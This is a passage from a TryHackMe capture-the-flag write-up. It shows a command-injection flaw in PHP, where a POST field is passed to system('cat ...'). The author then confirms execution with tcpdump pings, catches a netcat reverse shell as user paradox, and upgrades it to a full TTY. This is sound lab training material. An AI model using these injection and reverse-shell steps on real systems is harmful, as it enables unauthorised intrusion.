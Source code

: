 ### Hypothesis
```php
if isset($_POST['payload']){
	system('cat ' . $_POST['payload'])
}
```
If there is no sanitization of user input, we can get code execution on the box.

## Listening for Ping requests on my local box
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

## Making a ping request
![6](/assets/images/thm/cooctusadventures/Pasted image 20210416193918.png)

And we get a response back.
![7](/assets/images/thm/cooctusadventures/Pasted image 20210416193947.png)

Since we have code execution on the box, let us try and get a reverse shell.
## Getting a reverse shell
![8](/assets/images/thm/cooctusadventures/Pasted image 20210416194155.png)

And we get a reverse shell as user paradox.

```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.67.80 56954
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1003(paradox) gid=1003(paradox) groups=1003(paradox)
```


## Getting a proper TTY
Now lets get a proper shell with auto completion.
```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```
Hit CRTL+z to background the current process and on local box type
```console
reddevil@ubuntu:~/Documents/tryhackme/coconutadventures$ stty raw -echo
```
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```console
paradox@cchq:~$ export TERM=xterm
```
